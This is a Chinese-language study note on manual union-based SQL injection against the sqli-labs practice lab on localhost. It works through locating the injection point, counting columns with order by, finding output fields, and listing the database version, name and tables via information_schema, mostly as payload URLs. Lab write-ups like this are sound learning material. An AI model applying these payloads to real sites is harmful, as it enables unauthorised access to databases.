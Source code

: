 #### 第一步 判断注入点

```
http://localhost/sqli_labs/Less-2/?id=1 
http://localhost/sqli_labs/Less-2/?id=1 and 1=1
```

    判断有无注入点  and 1 = 1； true

**当注入点为字符型时，and 1=2 页面仍然可以执行**

**当注入点为数字型时，and 1=2 页面不能执行**

```
小技巧：判断类型时，可以使用id=2-1来查看，数字型则会返回第一个结果，相反字符型无法运算
```

**select * from ser where name = $name and 1=1**

 随便输入内容 == 报错 注入

    == 没有注入

#### 第二步 判断字段数（列数）

   猜解列名数量 order by           %20 空格
    group by    		//group by 一般注入时不会被防火墙发现

```
http://localhost/sqli_labs/Less-2/?id=1 order by 3  正确
http://localhost/sqli_labs/Less-2/?id=1 order by 4    报错
```

   猜解有几个字段      测试结果反馈3个字段

#### 第三步 判断回显点 union

**id=-1**

**因为这里****优先显示的是联合查询的第一个结果，而第二个结果未被显示**。

![1686740446661](image/1.1手工注入流程/1686740446661.png)

**所以我们只需要在这里****使联合查询的第一个结果不显示**（使前半段语句为假，则不返回任何内容）：

![1686740526745](image/1.1手工注入流程/1686740526745.png)

**我们发现  ”Your Login Name“  后显示的是第二个字段的内容**
**			“Password”         后显示的是第三个字段的内容

**说明Angelina是第二个字段的内容，I-kill-you是第三个字段的内容**

#### 第四步 信息收集

**数据库版本 version()    只有高版本才有系统库， 高版本：5.0以上          低版本：5.0以下**

* **系统库：** **infromation_schema**
* **数据库名称：database（）**
* **schemata表** (mysql服务器中所有**数据库信息**的表)
* **tables表** (mysql服务器中所有**表信息**的表)
* **columns表**（mysql服务器所有**列信息**的表）
* **table_schema 数据库名**
* **table_name 表名**
* **column_name 列名**
* . 下一级
  **infromation_schema.tables 查找表名**
  **infromation_schema.columns 查看列名**

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2 union select 1,version(),database()
//查询数据库版本和数据库名
```

![1686741066155](image/1.1手工注入流程/1686741066155.png)

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2  union select 1,table_name,3 from information_schema.tables where table_schema='security'
//显示security库中的第一张表
```

![1686741088652](image/1.1手工注入流程/1686741088652.png)

![]()

![1686750543935](image/1.1手工注入流程/1686750543935.png)

![]()

![]()

![]()

![]()
